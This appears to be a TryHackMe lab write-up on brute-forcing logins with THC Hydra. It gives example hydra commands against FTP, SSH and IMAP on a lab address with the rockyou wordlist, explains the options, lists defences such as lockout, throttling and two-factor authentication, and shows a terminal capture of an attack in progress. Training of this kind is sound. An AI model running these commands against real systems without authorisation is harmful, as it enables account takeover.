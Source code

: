 Consider the following concrete examples:

    hydra -l mark -P /usr/share/wordlists/rockyou.txt 10.10.30.103 ftp will use mark as the username as it iterates over the provided passwords against the FTP server.
    hydra -l mark -P /usr/share/wordlists/rockyou.txt ftp://10.10.30.103 is identical to the previous example. 10.10.30.103 ftp is the same as ftp://10.10.30.103.
    hydra -l frank -P /usr/share/wordlists/rockyou.txt 10.10.30.103 ssh will use frank as the user name as it tries to login via SSH using the different passwords.


There are some extra optional arguments that you can add:

    -s PORT to specify a non-default port for the service in question.
    -V or -vV, for verbose, makes Hydra show the username and password combinations that are being tried. This verbosity is very convenient to see the progress, especially if you are still not confident of your command-line syntax.
    -t n where n is the number of parallel connections to the target. -t 16 will create 16 threads used to connect to the target.
    -d, for debugging, to get more detailed information about what’s going on. The debugging output can save you much frustration; for instance, if Hydra tries to connect to a closed port and timing out, -d will reveal this right away.

Once the password is found, you can issue CTRL-C to end the process. In TryHackMe tasks, we expect any attack to finish within less than five minutes; however, the attack would usually take longer in real-life scenarios. Options for verbosity or debugging can be pretty helpful if you want Hydra to update you about its progress.

In summary, attacks against login systems can be carried out efficiently using a tool, such as THC Hydra combined with a suitable word list. Mitigation against such attacks can be sophisticated and depends on the target system. A few of the approaches include:


    Password Policy: Enforces minimum complexity constraints on the passwords set by the user.
    Account Lockout: Locks the account after a certain number of failed attempts.
    Throttling Authentication Attempts: Delays the response to a login attempt. A couple of seconds of delay is tolerable for someone who knows the password, but they can severely hinder automated tools.
    Using CAPTCHA: Requires solving a question difficult for machines. It works well if the login page is via a graphical user interface (GUI). (Note that CAPTCHA stands for Completely Automated Public Turing test to tell Computers and Humans Apart.)
    Requiring the use of a public certificate for authentication. This approach works well with SSH, for instance.
    Two-Factor Authentication: Ask the user to provide a code available via other means, such as email, smartphone app or SMS.
    There are many other approaches that are more sophisticated or might require some established knowledge about the user, such as IP-based geolocation.

Using a combination of the above approaches is an excellent approach to protect against password attacks.

```
┌──(kali㉿kali)-[~]
└─$ hydra -t 16 -l lazie -P /usr/share/wordlists/rockyou.txt -vV 10.10.30.103 imap
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-31 12:56:45
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking imap://10.10.30.103:143/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target 10.10.30.103 - login "lazie" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.30.103 - login "lazie" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.30.103 - login "lazie" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.30.103 - login "lazie" - pass "password" - 4 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.30.103 - login "lazie" - pass "iloveyou" - 5 of 14344399 [child 4] (0/0)
```